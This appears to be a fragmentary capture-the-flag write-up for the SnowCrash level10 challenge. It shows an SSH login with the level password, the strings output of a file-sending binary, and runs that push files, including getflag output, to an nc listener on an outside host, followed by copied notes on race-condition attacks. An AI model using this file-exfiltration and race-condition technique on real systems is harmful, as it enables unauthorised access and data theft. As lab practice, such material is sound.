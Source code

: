 ssh level10@ip -p 4242
password: s5cAJpM8ev6XHw998pRWG728z


strings level10

```
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
```


echo "test" > /tmp/test
level10@SnowCrash:~$ ./level10 /tmp/test 10.12.10.14
Connecting to 10.12.10.14:6969 .. Connected!
Sending file .. wrote file!

on the host:
```
nc -l 6969
.*( )*.
test
```

```
level10@SnowCrash:~$ echo "`getflag`" > /tmp/test
level10@SnowCrash:~$ ./level10 /tmp/test 10.12.10.14

nc -l 6969
.*( )*.
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```





race condition = use one code several times

When you make the web page perform some action that should be done only once, but if the action is done several times you will be benefited, you really need to try a Race condicion.
Most of the time this is directly related with money (if an action is made you get X money, so let's try to make it several time very quickly).


Race condition is architectural vulnerability of a multi-threaded application, in which the application operation depends on the order in which the parts of the code are executed.


A race condition is when two or more requests are sent at the same millisecond to an API. When an API does not have a mechanism to handle this scenario, it can lead to the API processing the requests in an unintended manner.

This attack is named “Race Condition” because it is a race between how fast an attacker sends requests to modify a resource and how fast the application updates that particular resource.

https://labs.detectify.com/2021/08/10/how-to-hack-apis-in-2021/